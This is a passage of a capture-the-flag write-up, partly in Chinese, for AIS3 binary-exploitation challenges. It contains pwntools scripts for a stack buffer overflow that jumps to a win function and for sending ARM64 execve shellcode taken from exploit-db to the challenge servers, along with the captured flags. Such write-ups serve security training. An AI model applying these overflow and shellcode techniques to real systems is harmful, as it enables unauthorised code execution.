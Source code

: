 ```bash
Index: 0
Length: 4
Content:
free(): double free detected in tcache 2
Aborted (core dumped)
```

**Flag: `AIS3{congrats_on_crashing_my_editor!_but_can_you_get_shell_from_it?}`**

### BOF2WIN

1. 純粹的 stack buffer overflow。
```python
from pwn import *

p = remote('127.0.0.1', 12347)
p = remote('chals1.ais3.org', 12347)

flag_adr = 0x401216

payload = b'A'*24
payload += flag_adr.to_bytes(8, 'little')

p.recv()
p.sendline(payload)
print(p.recv())
print(p.recv().strip(b'\x00').decode())
```

**Flag: `AIS3{Re@1_B0F_m4st3r!!}`**

### Give Me SC

1. 不會寫 ARM64 shellcode 就上網找一份來用。

```python
from pwn import *

p = remote('127.0.0.1', 15566)
p = remote('chals1.ais3.org', 15566)

# ref: https://www.exploit-db.com/exploits/47048
shellcode = b"\xe1\x45\x8c\xd2\x21\xcd\xad\xf2\xe1\x65\xce\xf2\x01\x0d\xe0\xf2\xe1\x8f\x1f\xf8\xe1\x03\x1f\xaa\xe2\x03\x1f\xaa\xe0\x63\x21\x8b\xa8\x1b\x80\xd2\xe1\x66\x02\xd4"

p.recv()
p.send(b'AAAA')
p.recv()
p.send(shellcode)
print(p.recv())
p.sendline(b'cat home/give_me_sc/flag')
print(p.recv().decode())
print(p.recv().decode())
# p.interactive()
```
